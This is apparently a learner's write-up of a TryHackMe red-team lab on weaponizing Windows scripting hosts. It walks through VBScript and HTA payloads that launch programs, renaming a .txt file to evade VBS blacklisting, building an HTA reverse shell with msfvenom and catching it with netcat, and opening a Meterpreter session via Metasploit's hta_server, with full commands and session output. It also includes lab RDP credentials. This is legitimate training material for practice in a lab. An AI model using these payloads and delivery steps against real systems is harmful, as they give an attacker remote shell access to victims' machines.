

# Red Team Weaponization
> https://tryhackme.com/room/weaponization



Weaponization is the second stage of the Cyber Kill Chain model. In this stage, the attacker generates and develops their own malicious code using deliverable payloads such as word documents, PDFs, etc

The weaponization stage aims to use the malicious weapon to exploit the target machine and gain initial access.

Most organizations have Windows OS running, which is going to be a likely target. An organization's environment policy often blocks downloading and executing .exe files to avoid security violations. Therefore, red teamers rely upon building custom payloads sent via various channels such as phishing campaigns, social engineering, browser or software exploitation, USB, or web methods.

Most organizations block or monitor the execution of **.exe** files within their controlled environment. For that reason, red teamers rely on executing payloads using other techniques, such as built-in windows scripting technologies. Therefore, this task focuses on various popular and effective scripting techniques, including:

- The Windows Script Host (WSH)
- An HTML Application (HTA)
- Visual Basic Applications (VBA)
- PowerShell (PSH)

**CyberKill Chain**
https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html

**Red Team Toolkit**:
https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development


Now let's try hacking that windows
```bash
# first access the Windows Machine
xfreerdp /v:10.10.17.249 /u:thm /p:TryHackM3 +clipboard
```
## Windows Scripting Host ( WSH )

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.

It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe. For more information about VBScript, please visit here. It is important to note that the VBScript engine on a Windows operating system runs and executes applications with the same level of access and permission as a regular user; therefore, it is useful for the red teamers.

Now let's write a simple VBScript code to create a windows message box that shows the Welcome to THM message. Make sure to save the following code into a file, for example, hello.vbs.


hello.vbs
```vb
Dim message 
message = "Welcome to THM"
MsgBox message
```

Now let's use the VBScript to run executable files. The following vbs code is to invoke the Windows calculator, proof that we can execute .exe files using the Windows native engine (WSH).

calculator.vbs
```vb
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
' Ways to execute
' wscript calculator.vbs
' cscript calculator.vbs
```

Another trick. If the VBS files are blacklisted, then we can rename the file to .txt file and run it using wscript as follows,

```cmd
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```

## HTA - HTML Application

An HTML Application (HTA) allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered which are dynamic HTML pages containing JScript and VBScript.

10.10.244.133


```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>

```

**HTA Reverse Connection**

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
    LHOST=10.10.244.133 LPORT=443 -f hta-psh -o thm.hta

# serve it using the python server
# then catch it using NC in another terminal
sudo nc -lnvp 443
```

Once the victim visits the malicious URL and hits run, we get the connection back.
```bash
┌──(root㉿kali)-[~/repo]
└─# sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.244.133] from (UNKNOWN) [10.10.168.71] 50342
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm\Downloads>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::c880:edf7:1346:6133%2
   IPv4 Address. . . . . . . . . . . : 10.10.168.71
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1

Tunnel adapter isatap.eu-west-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : eu-west-1.compute.internal

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Connection-specific DNS Suffix  . :
   IPv6 Address. . . . . . . . . . . : 2001:0:2851:782c:3cf3:31d4:f5f5:57b8
   Link-local IPv6 Address . . . . . : fe80::3cf3:31d4:f5f5:57b8%5
   Default Gateway . . . . . . . . . : ::

C:\Users\thm\Downloads>
```


**Malicious HTA via Metasploit**
```bash
┌──(root㉿kali)-[~/repo/HTA]
└─# msfconsole -q
msf6 > use exploit/windows/misc/hta_server
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > set LHOST 10.10.244.133
LHOST => 10.10.244.133
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.10.244.133
SRVHOST => 10.10.244.133
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.244.133:443
msf6 exploit(windows/misc/hta_server) > [*] Using URL: http://10.10.244.133:8080/a0MyJ1AA0VM.hta
[*] Server started.
[*] Sending stage (175686 bytes) to 66.160.133.238
[*] 10.10.168.71     hta_server - Delivering Payload
[*] Sending stage (175686 bytes) to 10.10.168.71


## NOTES:
# On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.

[*] Meterpreter session 1 opened (10.10.244.133:443 -> 10.10.168.71:50594) at 2023-11-23 16:29:30 +0000

msf6 exploit(windows/misc/hta_server) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  DESKTOP-1AU6NT4\thm @ DESKTOP-1AU6NT4  10.10.244.133:443 -> 10.10.168.71:5059
                                                                            4 (10.10.168.71)

msf6 exploit(windows/misc/hta_server) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >

```


## PowerShell - PSH

PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses.
> recommended room to practice
> https://tryhackme.com/room/powershell

